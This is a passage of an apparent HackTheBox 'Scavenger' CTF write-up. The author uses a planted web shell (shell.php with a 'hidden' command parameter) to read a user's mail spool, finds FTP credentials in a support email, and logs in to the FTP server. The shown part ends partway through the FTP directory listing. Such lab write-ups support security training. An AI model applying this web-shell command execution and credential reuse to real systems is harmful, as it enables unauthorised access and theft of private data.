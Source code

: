 It worked! However, ib01c03 does not have a `user.txt` file in ~ 🙁

## Getting user.txt

After some initial enumeration, I found an interesting mail in `/var/spool/mail/ib01c03`:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/scavenger# curl "http://sec03.rentahacker.htb/shell.php?hidden=cat%20/var/spool/mail/ib01c03"
From support@ib01.supersechosting.htb Mon Dec 10 21:10:56 2018
Return-path: <support@ib01.supersechosting.htb>
Envelope-to: ib01c03@ib01.supersechosting.htb
Delivery-date: Mon, 10 Dec 2018 21:10:56 +0100
Received: from support by ib01.supersechosting.htb with local (Exim 4.89)
	(envelope-from <support@ib01.supersechosting.htb>)
	id 1gWRtI-0000ZK-8Q
	for ib01c03@ib01.supersechosting.htb; Mon, 10 Dec 2018 21:10:56 +0100
To: <ib01c03@ib01.supersechosting.htb>
Subject: Re: Please help! Site Defaced!
In-Reply-To: Your message of Mon, 10 Dec 2018 21:04:49 +0100
	<E1gWRnN-0000XA-44@ib01.supersechosting.htb>
References: <E1gWRnN-0000XA-44@ib01.supersechosting.htb>
X-Mailer: mail (GNU Mailutils 3.1.1)
Message-Id: <E1gWRtI-0000ZK-8Q@ib01.supersechosting.htb>
From: support <support@ib01.supersechosting.htb>
Date: Mon, 10 Dec 2018 21:10:56 +0100
X-IMAPbase: 1544472964 2
Status: O
X-UID: 1

>> Please we need your help. Our site has been defaced!
>> What we should do now?
>>
>> rentahacker.htb

Hi, we will check when possible. We are working on another incident right now. We just make a backup of the apache logs.
Please check if there is any strange file in your web root and upload it to the ftp server:
ftp.supersechosting.htb
user: ib01ftp
pass: YhgRt56_Ta

Thanks.

root@fury-battlestation:~/htb/blog/scavenger#

{% endhighlight %}

I used the credentials provided in the mail to connect to the FTP server:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/scavenger# ftp scavenger.htb
Connected to scavenger.htb.
220 (vsFTPd 3.0.3)
Name (scavenger.htb:root): ib01ftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xrwx---    3 1005     1000         4096 Dec 10  2018 .
drwxr-xr-x    8 0        0            4096 Dec 07  2018 ..
dr-xrwx---    4 1005     1000         4096 Dec 10  2018 incidents
226 Directory send OK.